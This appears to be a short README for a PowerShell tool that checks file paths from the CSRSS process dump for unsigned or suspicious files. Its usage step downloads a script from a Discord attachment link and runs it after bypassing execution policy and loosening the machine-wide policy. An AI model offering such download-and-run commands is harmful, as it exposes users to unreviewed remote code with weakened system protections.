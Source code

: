 # CSRSS Powershell Script
Checks the Systems CSRSS Dump for file-paths, then checks the files for signatures to ensure file integrity or detect traces of malware on a system.

### Usage of other Software
This script completely runs without any use of external software. Simply open Powershell and run:

New-Item -Path "C:\temp\dump\csrss" -ItemType Directory -Force | Out-Null;
Set-Location "C:\temp\dump\csrss";
Invoke-WebRequest -Uri "https://cdn.discordapp.com/attachments/1269629607674646540/1270118745645518938/csrss.ps1?ex=66b289c2&is=66b13842&hm=9b6ce26124e6257d2a11ec344399d907776a2aa5dca1ce0a91fcab6d799be99d&" -OutFile "csrss.ps1"; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force; Set-ExecutionPolicy -Scope LocalMachine -ExecutionPolicy RemoteSigned -Force; .\csrss.ps1
